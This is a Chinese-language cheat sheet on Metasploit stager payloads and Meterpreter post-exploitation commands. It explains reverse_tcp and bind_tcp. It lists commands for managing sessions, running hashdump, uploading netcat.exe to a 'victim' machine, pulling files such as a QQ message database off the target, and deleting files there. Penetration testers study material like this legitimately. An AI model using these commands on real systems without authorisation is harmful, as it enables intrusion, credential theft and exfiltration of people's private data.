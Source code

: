 Stager这种Payload负责建立目标用户与攻击者之间的网络连接，并下载额外的组件或应用程序。一种常见的Stagers Payload就是reverse_tcp，它可以让目标系统与攻击者建立一条tcp连接。另一种常见的是bind_tcp，它可以让目标系统开启一个tcp监听器，而攻击者随时可以与目标系统进行通信。

Stage是Stager Payload下载的一种Payload组件，这种Payload可以提供更加高级的功能，而且没有大小限制

## Meterpreter的常用命令

```bash
help# 查看Meterpreter帮助
background#返回，把meterpreter后台挂起
bgkill# 杀死一个背景 meterpreter 脚本
bglist#提供所有正在运行的后台脚本的列表
bgrun#作为一个后台线程运行脚本
channel#显示活动频道
sessions -i number # 与会话进行交互，number表示第n个session,使用session -i 连接到指定序号的meterpreter会话已继续利用
sesssions -k  number #与会话进行交互
close# 关闭通道
exit# 终止 meterpreter 会话
quit# 终止 meterpreter 会话
interact id #切换进一个信道
run#执行一个已有的模块，这里要说的是输入run后按两下tab，会列出所有的已有的脚本，常用的有autoroute,hashdump,arp_scanner,multi_meter_inject等
irb# 进入 Ruby 脚本模式
read# 从通道读取数据
write# 将数据写入到一个通道
run和bgrun# 前台和后台执行以后它选定的 meterpreter 脚本
use# 加载 meterpreter 的扩展
load/use#加载模块

Resource#执行一个已有的rc脚本

2.文件系统命令

cat c:\boot.ini#查看文件内容,文件必须存在

del c:\boot.ini #删除指定的文件

upload /root/Desktop/netcat.exe c:\ # 上传文件到目标机主上，如upload  setup.exe C:\\windows\\system32\

download nimeia.txt /root/Desktop/   # 下载文件到本机上如：download C:\\boot.ini /root/或者download C:\\"ProgramFiles"\\Tencent\\QQ\\Users\\295******125\\Msg2.0.db /root/

edit c:\boot.ini  # 编辑文件

getlwd#打印本地目录

getwd#打印工作目录

lcd#更改本地目录

ls#列出在当前目录中的文件列表

lpwd#打印本地目录

pwd#输出工作目录

cd c:\\ #进入目录文件下

rm file #删除文件

mkdir dier #在受害者系统上的创建目录

rmdir#受害者系统上删除目录

dir#列出目标主机的文件和文件夹信息
```